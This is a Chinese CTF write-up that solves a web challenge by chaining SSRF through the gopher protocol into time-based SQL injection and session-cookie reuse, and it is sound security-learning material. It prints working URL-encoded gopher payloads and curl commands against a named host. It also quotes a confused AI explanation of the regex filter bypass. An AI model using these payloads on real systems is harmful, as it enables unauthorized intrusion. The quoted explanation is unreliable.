





题目描述：
国赛华东北-内网访问
题目解题：

进入页面没啥信息，抓包，扫目录均扫不到，之后又用acunetix扫了也没啥信息，因此没啥头绪了，开始借鉴wp。
看了wp发现 竟然有个ssrf.php页面，但我的dir竟然没扫到。。。于是将其添加到了字典里
那我们访问看看

如上图我们先输入127.0.0.1看看

发现进入了某个数据库页面，随后我随便输了几个查询语句，均会重定向到ssrf.php页面，这里又不知道 如何做了，看了wp发现他直接file协议读取了flag。。。看来我想复杂了

看了官方wp后发现这似乎是非预期，官方采用gopher协议
导致非预期解是因为：
1
| preg_match('/file|http://|dict/i', $url);
|

正确的过滤方式应该是：
1
| preg_match('/file|http:\/\/|dict/i', $url);
|
但这里我并不理解为何file能逃逸过去，GPT 回答如下
1
| 与第一个正则表达式不同的是，这个正则表达式中的 "http://" 是带有转义斜杠 "/" 的。这意味着它只会匹配包含具体的字符串 "http://"，而不会匹配像 "https://" 或 "http://example.com" 这样的字符串。此外，它仍然匹配包含 "file" 或 "dict" 的字符串。
|
这里我复现一下官方 wp
1
2
3
4
5
| 然后就是ssrf+sql注入的考点，这个地方没有过多的过滤，主要考察的是mysql中取证能力
给出一个可行的sleep() poc
sleep延时注入爆破fake_flag表的第一个字母，其他的poc以此类推
|
1
2
| poc如下：
gopher://127.0.0.1:80/_GET%20%2findex.php%253fquery%253Dselect%252520%25252a%252520from%252520fake_flag%252520where%252520if%252528mid%252528%252528select%252520flag%252520from%252520fake_flag%252520limit%2525200,1%252529,1,1%252529%25253D%252522t%252522,sleep%2525283%252529,0%252529%20HTTP%2f1.1%250d%250aHost%3A%20localhost%250d%250a
|
在注入之后，会发现没有办法得到flag，这个时候需要去考虑到底是不是没有注入完全部的数据库
因为database和show被过滤了，所以看不到其他数据库
但是通过information_schema.processlist表格来查看正在运行的sql命令
发现可疑数据库名：hintda91947e762d8c1d0d1b3d72d3369629
然后访问da91947e762d8c1d0d1b3d72d3369629.php
发现也是需要内网，而且提示
在输入框输入da91947e762d8c1d0d1b3d72d3369629
发现回显了admin
说明这个时候我们是管理员，
然后就需要我们带着这个cookie去登录da91947e762d8c1d0d1b3d72d3369629.php页面
所以我们最后的poc为
输入密码打sql注入然后得到setcookie的值
1
| curl -g -v http://39.105.136.196:30022/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A80%2F_GET%2520%252findex.php%253fquery%253Dda91947e762d8c1d0d1b3d72d3369629%20HTTP%2f1.1%250d%250aHost%3A%20localhost%250d%250a
|
得到返回的页面内容里面的set phpsessid
ru1n2mphovds3qosjg3n8o3661
然后带着这个sessionid继续打
1
| curl -g -v http://39.105.136.196:30022/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A80%2F_GET%2520%252fda91947e762d8c1d0d1b3d72d3369629.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%250d%250aCookie%3A%20PHPSESSID%3Dru1n2mphovds3qosjg3n8o3661%3B%250d%250a
|
但是这个过程有点懵
参考文章：
【愚公系列】2023年06月 攻防世界-Web（babyweb）